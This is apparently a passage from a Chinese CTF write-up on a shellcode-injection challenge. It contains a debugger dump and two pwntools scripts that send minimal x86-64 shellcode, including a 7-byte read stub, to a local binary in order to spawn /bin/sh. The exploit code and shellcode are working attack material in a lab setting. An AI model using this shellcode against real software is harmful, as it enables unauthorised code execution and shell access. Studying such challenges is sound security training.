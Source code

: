 ```
 R15  0x0
 RBP  0x7fffffffe5e0 —▸ 0x400640 (__libc_csu_init) ◂— push   r15
 RSP  0x7fffffffe578 —▸ 0x400625 (main+79) ◂— mov    eax, 0
 RIP  0x7fffffffe590 ◂— 0xa50 /* 'P\n' */
───────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────
 ► 0x7fffffffe590    push   rax
   0x7fffffffe591    or     al, byte ptr [rax]
   0x7fffffffe593    add    byte ptr [rax], al
   0x7fffffffe595    add    byte ptr [rax], al
   0x7fffffffe597    add    byte ptr [rax], al
   0x7fffffffe599    add    byte ptr [rax], al
   0x7fffffffe59b    add    byte ptr [rax], al
   0x7fffffffe59d    add    byte ptr [rax], al
   0x7fffffffe59f    add    byte ptr [rcx], al
   0x7fffffffe5a1    add    byte ptr [rax], al
   0x7fffffffe5a3    add    byte ptr [rax], al
```

Exploit：

```python
#!/usr/bin/env python
from pwn import *
p = process('./main')
context.arch = 'amd64'
sh = asm('''
	mov al, 59
	push rbx
	push rbx
	pop rsi
	pop rdx
	mov rdi, 0x68732f6e69622f
	push rdi
	push rsp
	pop rdi
	syscall
''')
info(disasm(sh))
info(len(sh))
gdb.attach(p)
p.sendafter('shellcode>>\n', sh.ljust(0x40))
p.interactive()
```

构造 `read` 最短可以修改为 7 字节：

```python
#!/usr/bin/env python
from pwn import *
p = process('./main')
context.arch = 'amd64'
sh = asm('''
	xor rdx, rdx
	mov dl, 0x90
	syscall
''')
info(disasm(sh))
info(len(sh))
gdb.attach(p)
p.sendlineafter('shellcode>>\n', sh)
payload = '\x90' * 0x20 + asm(shellcraft.sh())
p.sendline(payload)
p.interactive()
```
